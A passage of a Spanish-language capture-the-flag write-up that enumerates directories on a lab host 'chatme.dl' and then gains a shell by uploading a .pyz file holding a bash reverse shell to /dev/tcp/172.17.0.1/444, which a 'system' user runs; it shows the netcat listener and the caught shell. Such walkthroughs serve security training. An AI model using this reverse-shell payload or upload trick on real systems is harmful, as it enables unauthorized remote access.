 - **Hallazgos**:
```bash
/index.html           (Status: 200) [Size: 7579]
/images               (Status: 301) [Size: 178] [--> http://chatme.dl/images/]
/css                  (Status: 301) [Size: 178] [--> http://chatme.dl/css/]
/js                   (Status: 301) [Size: 178] [--> http://chatme.dl/js/]
/fonts                (Status: 301) [Size: 178] [--> http://chatme.dl/fonts/]
```

Ahora vamos a filtrar por archivos con esta herramienta:
```bash
feroxbuster -u http://chat.chatme.dl -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -x txt,php,html,js,py
```

Tenemos lo siguiente:
```bash
200      GET       71l      157w     1891c http://chat.chatme.dl/login.php
301      GET        7l       12w      178c http://chat.chatme.dl/uploads => http://chat.chatme.dl/uploads/
200      GET      178l      430w     5769c http://chat.chatme.dl/index2.php
200      GET        1l       15w      147c http://chat.chatme.dl/upload.php
```

---
## Explotacion de Vulnerabilidades

### Intrusion
Primero nos ponemos en modo escucha:
```bash
nc -nlvp 444
```

### Vector de Ataque
Sabiendo que el usuario **System** interactua con los archivos que nosotros subamos, Asi que nos aprovecharemos de esto para ejecutar un archivo maliciosos que nos otorgue una **bash** interactiva:
La extension de archivo que usaremos es: **( pyz )** el cual contendra las siguiente instruccion:
```pyz
import os

os.system("bash -c 'exec bash -i &>/dev/tcp/172.17.0.1/444 <&1'")
```

Subimos el archivo, Ahora solo esperamos a que el usuario **system** ejecute el archivo para obtener una **shell**
```bash
nc -nlvp 444
listening on [any] 444 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 49012
bash: cannot set terminal process group (784): Inappropriate ioctl for device
bash: no job control in this shell
system@ccb1126996fc:~$ 
```

---